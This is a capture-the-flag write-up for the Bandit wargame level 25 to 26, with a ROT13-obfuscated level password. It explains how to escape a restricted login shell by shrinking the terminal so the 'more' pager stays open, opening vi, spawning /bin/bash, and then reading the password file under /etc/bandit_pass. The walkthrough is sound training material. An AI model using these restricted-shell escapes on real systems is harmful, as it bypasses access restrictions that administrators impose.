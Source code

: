 # Write-up: Bandit 25 → 26
**Date:** 2025-08-17

## Obfuscated password (ROT13) 
`f0773kkxx0ZKsqdBsCEIe9Y3wWOHBtPM:`

## OBJECTIVE
> "Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.  
>
> NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead."

## PURPOSE

First, identify **which shell** bandit26 uses, then learn **how that shell behaves** and **escape** it to read the next password.

1) **See bandit26’s login shell**
   ```bash
   grep '^bandit26:' /etc/passwd
   ```
   You’ll see a non-bash shell (typically `/usr/bin/showtext`).

2) **Understand what that shell does**
   It shows a text file via a pager (e.g., `more`) and then exits. If the pager detects a **small terminal**, it becomes **interactive** and shows a `--More--` prompt with extra keys enabled (like opening `vi`).

3) **Log in as bandit26 using the provided key (from bandit25)**
   ```bash
   # Adjust the key path/name if different on your box
   ssh -i /home/bandit25/.ssh/id_rsa bandit26@localhost -p 2220
   ```
   > If your terminal is too tall, the pager may dump output and disconnect immediately. **Shrink your terminal height** (e.g., ~10 lines) *before* you connect so you get the `--More--` prompt.

4) **Break out via the pager → vi → shell**
   - At `--More--`, press **v** to open the file in **vi**.
   - In `vi`, spawn a real shell:
     ```
     :set shell=/bin/bash
     :shell
     ```
   - You now have a normal shell **as bandit26**. Confirm and read the password:
     ```bash
     id
     whoami
     cat /etc/bandit_pass/bandit26
     ```

   *(Alternate inside vi: `:e /etc/bandit_pass/bandit26` to view the password without spawning a shell.)*

> Windows note (from the level text): If you connect from Windows, prefer **Command Prompt** (or WSL/SSH) instead of **PowerShell**, which can interfere with the interactive pager behavior.

## SOLUTIONS
- `grep '^bandit26:' /etc/passwd`
- `ssh -i /home/bandit25/.ssh/id_rsa bandit26@localhost -p 2220` *(shrink terminal height first to trigger `--More--`)*
- At `--More--` press **`v`** (opens `vi`)
- In `vi`: `:set shell=/bin/bash` → `:shell`
- `cat /etc/bandit_pass/bandit26`

---

Writeup author: **Jeremy Ray Jewell**  
[GitHub](https://github.com/jeremyrayjewell) • [LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)
